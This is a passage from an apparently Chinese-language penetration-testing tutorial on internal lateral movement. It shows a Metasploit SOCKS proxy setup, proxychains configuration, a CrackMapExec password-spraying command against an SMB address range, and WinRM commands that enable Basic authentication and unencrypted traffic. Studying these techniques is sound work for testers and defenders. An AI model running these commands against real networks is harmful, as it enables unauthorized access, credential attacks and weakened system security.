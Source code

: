 
#### [](#%E5%BC%80%E5%90%AFmsf%E4%BB%A3%E7%90%86 "开启msf代理")开启 msf 代理[](#%E5%BC%80%E5%90%AFmsf%E4%BB%A3%E7%90%86)

```bash
$meterpreter > background
$msf6 exploit(multi/handler) > use auxiliary/server/socks_proxy
$msf6 auxiliary(server/socks_proxy) > set SRVPORT 2233
$msf6 auxiliary(server/socks_proxy) > run
```

[![](assets/1702372940-29f1bb7f2550693368b2c47b4f749c77.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/50.png)

更改 proxychains.conf

```awk
vim /etc/proxychains.conf
```

**密码喷射**

```bash
proxychains crackmapexec smb 192.168.91.1-127 -u administrator -p 'Abcd1234!@#'
```

## [](#WINRM%E6%A8%AA%E5%90%91 "WINRM横向")WINRM 横向[](#WINRM%E6%A8%AA%E5%90%91)

WinRM 代表 Windows 远程管理，是一种允许管理员远程执行系统管理任务的服务。默认情况下支持 Kerberos 和 NTLM 身份验证以及基本身份验证。  
条件：

-   **双方都启用的 Winrm rs 的服务**
-   目标系统防火墙已事先允许 5985(HTTP SOAP) 或 5986(HTTPS SOAP) 端口连入
-   使用此服务需要管理员级别凭据。
-   Windows2008 以下版本默认自动状态，Windows Vista/win7上必须手动启动；
-   Windows 2012 之后的版本默认允许远程任意主机来管理。

### [](#%E5%BC%80%E5%90%AF%E9%85%8D%E7%BD%AE "开启配置")开启配置[](#%E5%BC%80%E5%90%AF%E9%85%8D%E7%BD%AE)

```bash
# winrm service 默认都是未启用的状态，先查看状态；如无返回信息，则是没有启动
winrm enumerate winrm/config/listener

# 针对winrm service 进行基础配置：
winrm quickconfig

# 查看`winrm service listener`
winrm e winrm/config/listener

# 为winrm service 配置auth:
winrm set winrm/config/service/auth @{Basic="true"}

# 为winrm service 配置加密方式为允许非加密：
winrm set winrm/config/service @{AllowUnencrypted="true"}
```
